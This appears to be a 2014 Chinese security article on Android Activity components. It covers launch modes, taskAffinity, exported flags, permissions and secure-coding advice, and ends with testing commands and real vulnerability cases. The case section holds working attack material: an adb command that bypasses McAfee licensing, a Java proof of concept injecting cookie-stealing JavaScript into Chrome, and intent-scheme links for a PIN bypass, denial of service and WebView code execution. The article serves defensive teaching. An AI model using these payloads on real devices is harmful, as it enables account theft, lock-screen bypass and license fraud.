# Android Activtity Security

2014/11/18 11:45 | [瘦蛟舞](http://drops.wooyun.org/author/瘦蛟舞 "由 瘦蛟舞 发布")   | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [移动安全](http://drops.wooyun.org/category/mobile "查看 移动安全 中的全部文章")  | 占个座先  | 捐赠作者

## 0x00 科普

* * *

Android 每一个 Application 都是由 Activity、Service、content Provider 和 Broadcast Receiver 等 Android 的基本组件所组成，其中 Activity 是实现应用程序的主体，它承担了大量的显示和交互工作，甚至可以理解为一个"界面"就是一个 Activity。

Activity 是为用户操作而展示的可视化用户界面。比如说，一个 activity 可以展示一个菜单项列表供用户选择，或者显示一些包含说明的照片。一个短消息应用程序可以包括一个用于显示做为发送对象的联系人的列表的 activity，一个给选定的联系人写短信的 activity 以及翻阅以前的短信和改变设置的 activity。尽管它们一起组成了一个内聚的用户界面，但其中每个 activity 都与其它的保持独立。每个都是以 Activity 类为基类的子类实现。

一个应用程序可以只有一个 activity，或如刚才提到的短信应用程序那样，包含很多个。每个 activity 的作用，以及其数目，自然取决于应用程序及其设计。一般情况下，总有一个应用程序被标记为用户在应用程序启动的时候第一个看到的。从一个 activity 转向另一个的方式是靠当前的 activity 启动下一个。

## 0x01 知识要点

* * *

参考：[`developer.android.com/guide/components/activities.html`](http://developer.android.com/guide/components/activities.html)

**生命周期**



**启动方式**

显示启动

配置文件中注册组件

```
<activity android:name=".ExampleActivity" android:icon="@drawable/app_icon">
    <intent-filter>
        <action android:name="android.intent.action.MAIN" />
        <category android:name="android.intent.category.LAUNCHER" />
    </intent-filter>
</activity> 
```

直接使用 intent 对象指定 application 以及 activity 启动

```
Intent intent = new Intent(this, ExampleActivity.class);
startActivity(intent); 
```

> 未配置 intent-filter 的 action 属性，activity 只能使用显示启动。
> 
> 私有 Activity 推荐使用显示启动。

隐式启动

```
Intent intent = new Intent(Intent.ACTION_SEND);
intent.putExtra(Intent.EXTRA_EMAIL, recipientArray);
startActivity(intent); 
```

**加载模式 launch mode**

Activity 有四种加载模式：

*   **standard**：默认行为。每次启动一个 activity，系统都会在目标 task 新建一个实例。
*   **singleTop**:如果目标 activity 的实例已经存在于目标 task 的栈顶，系统会直接使用该实例，并调用该 activity 的 onNewIntent()（不会重新 create）
*   **singleTask**:在一个新任务的栈顶创建 activity 的实例。如果实例已经存在，系统会直接使用该实例，并调用该 activity 的 onNewIntent()（不会重新 create）
*   **singleInstance**:和"singleTask"类似，但在目标 activity 的 task 中不会再运行其他的 activity，在那个 task 中永远只有一个 activity。

设置的位置在 AndroidManifest.xml 文件中 activity 元素的 android:launchMode 属性：

```
<activity android:name="ActB" android:launchMode="singleTask"></activity> 
```

Activity launch mode 用于控制创建 task 和 Activity 实例。默认“standard“模式。Standard 模式一次启动即会生成一个新的 Activity 实例并且不会创建新的 task，被启动的 Activity 和启动的 Activity 在同一个栈中。当创建新的 task 时，intent 中的内容有可能被恶意应用读取所以建议若无特别需求使用默认的 standard 模式即不配置 launch mode 属性。launchMode 能被 Intent 的 flag 覆盖。

**taskAffinity**

android 系统中 task 管理 Activity。Task 的命名取决于 root Activity 的 affinity。

默认情况下，app 中的每个 Activity 都使用 app 的包名作为 affinity。而 Task 的分配取决于 app，故默认情况下一个 app 中所有的 Activity 属于同一 task。要改变 task 的分配，可以在 AndroidManifest.xml 文件中设置 affinity 的值，但是这样做会有不同 task 启动 Activity 携带的 intent 中的信息被其他应用读取的风险。

**FLAG_ACTIVITY_NEW_TASK**

intent flag 中一个重要的 flag

启动 Activity 时通过 setFlags()或者 addFlags()方法设置 intent 的 flags 属性能够改变 launch mode，FLAG_ACTIVITY_NEW_TASK 标记代表创建新的 task（被启动的 Activity 既不在前台也不在后台）。FLAG_ACTIVITY_MULTIPLE_TASK 标记能和 FLAG_ACTIVITY_NEW_TASK 同时设置。这种情况下必会创建的 task，所以 intent 中不应携带敏感数据。

**Task**

stack:Activity 承担了大量的显示和交互工作，从某种角度上将，我们看见的应用程序就是许多个 Activity 的组合。为了让这许多 Activity 协同工作而不至于产生混乱，Android 平台设计了一种堆栈机制用于管理 Activity，其遵循先进后出的原则，系统总是显示位于栈顶的 Activity，位于栈顶的 Activity 也就是最后打开的 Activity。

Task:是指将相关的 Activity 组合到一起，以 Activity Stack 的方式进行管理。从用户体验上讲，一个“应用程序”就是一个 Task，但是从根本上讲，一个 Task 是可以有一个或多个 Android Application 组成的

如果用户离开一个 task 很长时间，系统会清理栈顶以下的 activity，这样 task 被从新打开时，栈顶 activity 就被还原了。



**Intent Selector**

多个 Activity 具有相同 action 时，当此调用此 action 时会弹出一个选择器供用户选择。

**权限**

```
android:exported 
```

一个 Activity 组件能否被外部应用启动取决于此属性，设置为 true 时 Activity 可以被外部应用启动，设置为 false 则不能，此时 Activity 只能被自身 app 启动。（同 user id 或者 root 也能启动）

没有配置 intent-filter 的 action 属性 exported 默认为 false（没有 filter 只能通过明确的类名来启动 activity 故相当于只有程序本身能启动），配置了 intent-filter 的 action 属性 exported 默认为 true。

exported 属性只是用于限制 Activity 是否暴露给其他 app，通过配置文件中的权限申明也可以限制外部启动 activity。

```
android:protectionLevel 
```

[`developer.android.com/intl/zh-cn/guide/topics/manifest/permission-element.html`](http://developer.android.com/intl/zh-cn/guide/topics/manifest/permission-element.html)





normal:默认值。低风险权限，只要申请了就可以使用，安装时不需要用户确认。

dangerous：像 WRITE_SETTING 和 SEND_SMS 等权限是有风险的，因为这些权限能够用来重新配置设备或者导致话费。使用此 protectionLevel 来标识用户可能关注的一些权限。Android 将会在安装程序时，警示用户关于这些权限的需求，具体的行为可能依据 Android 版本或者所安装的移动设备而有所变化。

signature：这些权限仅授予那些和本程序应用了相同密钥来签名的程序。

signatureOrSystem:与 signature 类似，除了一点，系统中的程序也需要有资格来访问。这样允许定制 Android 系统应用也能获得权限，这种保护等级有助于集成系统编译过程。

```
<!-- *** POINT 1 *** Define a permission with protectionLevel="signature" -->
<permission
android:name="org.jssec.android.permission.protectedapp.MY_PERMISSION"
android:protectionLevel="signature" />
<application
android:icon="@drawable/ic_launcher"
android:label="@string/app_name" >
<!-- *** POINT 2 *** For a component, enforce the permission with its permission attribute -->
<activity
android:name=".ProtectedActivity"
android:exported="true"
android:label="@string/app_name"
android:permission="org.jssec.android.permission.protectedapp.MY_PERMISSION" >
<!-- *** POINT 3 *** If the component is an activity, you must define no intent-filter -->
</activity> 
```

**关键方法**

*   onCreate(Bundle savedInstanceState)
*   setResult(int resultCode, Intent data)
*   startActivity(Intent intent)
*   startActivityForResult(Intent intent, int requestCode)
*   onActivityResult(int requestCode, int resultCode, Intent data)
*   setResult (int resultCode, Intent data)
*   getStringExtra (String name)
*   addFlags(int flags)
*   setFlags(int flags)
*   setPackage(String packageName)
*   getAction()
*   setAction(String action)
*   getData()
*   setData(Uri data)
*   getExtras()
*   putExtra(String name, String value)

## 0x02 Activity 分类

* * *

Activity 类型和使用方式决定了其风险和防御方式,故将 Activity 分类如下： Private、Public、Parter、In-house



### private activity

* * *

私有 Activity 不应被其他应用启动相对是安全的

创建 activity 时：

1、不指定 taskAffinity //task 管理 activity。task 的名字取决于根 activity 的 affinity。默认设置中 Activity 使用包名做为 affinity。task 由 app 分配，所以一个应用的 Activity 在默认情况下属于相同 task。跨 task 启动 Activity 的 intent 有可能被其他 app 读取到。

2、不指定 lunchMode //默认 standard，建议使用默认。创建新 task 时有可能被其他应用读取 intent 的内容。

3、设置 exported 属性为 false

4、谨慎处理从 intent 中接收的数据，不管是否内部发送的 intent

5、敏感信息只能在应用内部操作

使用 activity 时：

6、开启 activity 时不设置 FLAG_ACTIVITY_NEW_TASK 标签 //FLAG_ACTIVITY_NEW_TASK 标签用于创建新 task（被启动的 Activity 并未在栈中）。

7、开启应用内部 activity 使用显示启动的方式

8、当 putExtra()包含敏感信息目的应是 app 内的 activity

9、谨慎处理返回数据，即可数据来自相同应用

### public activity

* * *

公开暴露的 Activity 组件，可以被任意应用启动

创建 activity：

1、设置 exported 属性为 true

2、谨慎处理接收的 intent

3、有返回数据时不应包含敏感信息

使用 activity：

4、不应发送敏感信息

5、当收到返回数据时谨慎处理

Parter、in-house 部分参阅[`www.jssec.org/dl/android_securecoding_en.pdf`](http://www.jssec.org/dl/android_securecoding_en.pdf)

**安全建议**

*   app 内使用的私有 Activity 不应配置 intent-filter，如果配置了 intent-filter 需设置 exported 属性为 false。
*   使用默认 taskAffinity
*   使用默认 launchMode
*   启动 Activity 时不设置 intent 的 FLAG_ACTIVITY_NEW_TASK 标签
*   谨慎处理接收的 intent 以及其携带的信息
*   签名验证内部（in-house）app
*   当 Activity 返回数据时候需注意目标 Activity 是否有泄露信息的风险
*   目的 Activity 十分明确时使用显示启动
*   谨慎处理 Activity 返回的数据，目的 Activity 返回的数据有可能是恶意应用伪造的
*   验证目标 Activity 是否恶意 app，以免受到 intent 欺骗，可用 hash 签名验证
*   When Providing an Asset Secondhand, the Asset should be Protected with the Same Level of Protection
*   尽可能的不发送敏感信息，应考虑到启动 public Activity 中 intent 的信息均有可能被恶意应用窃取的风险

## 0x04 测试方法

* * *

查看 activity：

*   反编译查看配置文件 AndroidManifest.xml 中 activity 组件（关注配置了 intent-filter 的及未设置 export=“false”的）
*   直接用 RE 打开安装后的 app 查看配置文件
*   Drozer 扫描:run app.activity.info -a packagename
*   动态查看：logcat 设置 filter 的 tag 为 ActivityManager

启动 activity：

*   adb shell：am start -a action -n package/componet
*   drozer: run app.activity.start --action android.action.intent.VIEW ...
*   自己编写 app 调用 startActiviy()或 startActivityForResult()
*   浏览器 intent scheme 远程启动:http://drops.wooyun.org/tips/2893

## 0x05 案例

* * *

**案例 1：绕过本地认证**

[WooYun: 华为网盘 android 客户端本地密码绕过（非 root 也可以）](http://www.wooyun.org/bugs/wooyun-2014-048502)

绕过 McAfee 的 key 验证，免费激活。

```
$ am start -a android.intent.action.MAIN -n com.wsandroid.suite/com.mcafee.main.MfeMain 
```



**案例 2：本地拒绝服务**

[WooYun: 快玩浏览器 android 客户端本地拒绝服务](http://www.wooyun.org/bugs/wooyun-2014-060423)

[WooYun: 雪球 android 客户端本地拒绝服务漏洞](http://www.wooyun.org/bugs/wooyun-2013-036581)

[WooYun: Tencent Messenger(QQ) Dos vulnerability(critical)](http://www.wooyun.org/bugs/wooyun-2014-048176)

[WooYun: Tencent WeiBo multiple Dos vulnerabilities(critical)](http://www.wooyun.org/bugs/wooyun-2014-048501)

[WooYun: Android 原生的 Settings 应用存在必现崩溃问题（可造成拒绝服务攻击）](http://www.wooyun.org/bugs/wooyun-2014-077688) (涉及 fragment)

**案例 3：界面劫持**

[WooYun: android 利用悬浮窗口实现界面劫持钓鱼盗号](http://www.wooyun.org/bugs/wooyun-2012-05478)

**案例 4：UXSS**

漏洞存在于 Chrome Android 版本 v18.0.1025123，class "com.google.android.apps.chrome.SimpleChromeActivity" 允许恶意应用注入 js 代码到任意域. 部分 AndroidManifest.xml 配置文件如下

```
<activity android:name="com.google.android.apps.chrome.SimpleChromeActivity" android:launchMode="singleTask" android:configChanges="keyboard|keyboardHidden|orientation|screenSize">
        <intent-filter>
            <action android:name="android.intent.action.VIEW" />
            <category android:name="android.intent.category.DEFAULT" />
        </intent-filter>
</activity> 
```

Class "com.google.android.apps.chrome.SimpleChromeActivity" 配置 <intent-filter>但是未设置 "android:exported" 为 "false". 恶意应用先调用该类并设置 data 为” http://google.com” 再次调用时设置 data 为恶意 js 例如'javascript:alert(document.cookie)', 恶意代码将在 http://google.com 域中执行. "com.google.android.apps.chrome.SimpleChromeActivity" class 可以通过 Android api 或者 am（activityManager）打开. POC 如下</intent-filter>

```
public class TestActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent i = new Intent();
                ComponentName comp = new ComponentName(
                                 "com.android.chrome",
                                    "com.google.android.apps.chrome.SimpleChromeActivity");
                i.setComponent(comp);
                i.setAction("android.intent.action.VIEW");
                Uri data = Uri.parse("http://google.com");
                i.setData(data);

                startActivity(i);

                    try {
                        Thread.sleep(5000);
                        }
                          catch (Exception e) {}

                data = Uri.parse("javascript:alert(document.cookie)");  
                i.setData(data);

                startActivity(i);
    }
} 
```

**案例 5：隐式启动 intent 包含敏感数据**

暂缺可公开案例,攻击模型如下图。



**案例 6：Fragment 注入(绕过 PIN+拒绝服务)**

Fragment 这里只提一下，以后可能另写一篇。

```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
16、bypass Pin android 3.0-4.3 （selector）
</a><br> 
```



```
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
17、fragment dos android 4.4 (selector)
</a><br> 
```



**案例 7:webview RCE**

```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
15、驴妈妈代码执行（fixed）
</a><br> 
```





## 0x06 参考

* * *

[`www.jssec.org/dl/android_securecoding_en.pdf`](http://www.jssec.org/dl/android_securecoding_en.pdf)

版权声明：未经授权禁止转载 [瘦蛟舞](http://drops.wooyun.org/author/瘦蛟舞 "由 瘦蛟舞 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：


### 相关日志

*   [Android Broadcast Security](http://drops.wooyun.org/tips/4393)
*   [Android Logcat Security](http://drops.wooyun.org/tips/3812)
*   [Android Content Provider Security](http://drops.wooyun.org/tips/4314)
*   [Android 证书信任问题与大表哥](http://drops.wooyun.org/tips/3296)
*   [Android App Injection&&Drozer; Use](http://drops.wooyun.org/tips/2997)
*   [Android UXSS 阶段性小结及自动化测试](http://drops.wooyun.org/tools/3186)